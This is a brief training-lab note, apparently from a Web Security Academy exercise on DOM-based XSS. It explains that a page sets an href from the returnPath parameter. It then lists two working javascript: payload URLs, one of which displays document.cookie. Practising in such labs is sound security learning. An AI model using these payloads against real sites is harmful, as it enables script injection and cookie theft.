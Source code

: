 Sets href to returnPath, possible to execute JS in href using 
javascript:JS_function()


https://0a1f00ed0404d36e80e39e7e00ac0093.web-security-academy.net/feedback?returnPath=javascript:alert(1)

https://0a1f00ed0404d36e80e39e7e00ac0093.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)



